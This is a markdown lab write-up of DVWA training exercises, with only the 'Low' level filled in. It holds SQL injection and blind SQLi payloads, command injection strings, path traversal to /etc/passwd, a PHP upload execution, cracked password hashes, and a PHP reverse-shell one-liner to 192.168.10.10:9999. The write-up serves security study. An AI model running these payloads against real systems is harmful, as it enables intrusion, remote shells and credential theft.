


# DVWA

## Low

### Brute Force

Username | Password
-------- | --------
admin    | password
pablo    | letmein
1337     | charley
smithy   | password
gordonb  | abc123

Username         | Password
---------------- | --------
admin' or '1'='1 | (empty)
admin' or ''='   | (empty)

### Command Injection

show directory

```bash
127.0.0.1 > /dev/null; ls -alh
```

output



create back connection (Remote Command Execution)

```bash
127.0.0.1 > /dev/null; php -r '$sock=fsockopen("192.168.10.10",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Cross Site Request Forgery (CSRF)

Admin has to visit this page and get request will be sent with his new password and his own session-cookie

```html
<html>

</html>
```

CSRF get request


### File Inclusion

input

```html
?page=file4.php
```

output


input

```bash
127.0.0.1 > /dev/null; cat ../../hackable/flags/fi.php
```

output


input

```html
?page=../../hackable/flags/fi.php
```

output


input

```html
?page=../../../../../etc/passwd
```

output


### File Upload

create 1.php

```php
<?php 
echo "Hi";

phpinfo();
?>
```

upload php file to ../../hackable/uploads


execute php file

```bash
127.0.0.1 > /dev/null; php -f ../../hackable/uploads/1.php
```

output



### Insecure CAPTCHA

post request for password change


result of the request


### SQL Injection

input SQLi

```bash
' OR '1'='1

' or 1=1 -- -

'='
```

output


input SQLi

```bash
-1' UNION SELECT user, password FROM users -- -
-1' UNION SELECT user, password FROM users ORDER BY first_name -- ...
```

output


decrypt md5 hash

user    | md5 hash                         | password
------- | -------------------------------- | --------
admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | password
gordonb | e99a18c428cb38d5f260853678922e03 | abc123
1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | charley
pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein
smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | password

input SQLi

```bash
' UNION SELECT version(), ' 
```

output


### SQL Injection (Blind)

input

```bash
' UNION SELECT IF(version() LIKE '0%', SLEEP(1), ''), '
' UNION SELECT IF(version() LIKE '1%', SLEEP(1), ''), '
' UNION SELECT IF(version() LIKE '2%', SLEEP(1), ''), '
```

output


### Weak Session IDs

### DOM Based Cross Site Scripting (XSS)

### Reflected Cross Site Scripting (XSS)

### Stored Cross Site Scripting (XSS)

### Content Security Policy (CSP) Bypass

### JavaScript Attacks

---

## Medium

### Brute Force

### Command Injection

### Cross Site Request Forgery (CSRF)

### File Inclusion

### File Upload

### Insecure CAPTCHA

### SQL Injection

### SQL Injection (Blind)

### Weak Session IDs

### DOM Based Cross Site Scripting (XSS)

### Reflected Cross Site Scripting (XSS)

### Stored Cross Site Scripting (XSS)

### Content Security Policy (CSP) Bypass

### JavaScript Attacks

---

## High

### Brute Force

### Command Injection

### Cross Site Request Forgery (CSRF)

### File Inclusion

### File Upload

### Insecure CAPTCHA

### SQL Injection

### SQL Injection (Blind)

### Weak Session IDs

### DOM Based Cross Site Scripting (XSS)

### Reflected Cross Site Scripting (XSS)

### Stored Cross Site Scripting (XSS)

### Content Security Policy (CSP) Bypass

### JavaScript Attacks

---

## Impossible

### Brute Force

### Command Injection

### Cross Site Request Forgery (CSRF)

### File Inclusion

### File Upload

### Insecure CAPTCHA

### SQL Injection

### SQL Injection (Blind)

### Weak Session IDs

### DOM Based Cross Site Scripting (XSS)

### Reflected Cross Site Scripting (XSS)

### Stored Cross Site Scripting (XSS)

### Content Security Policy (CSP) Bypass

### JavaScript Attacks
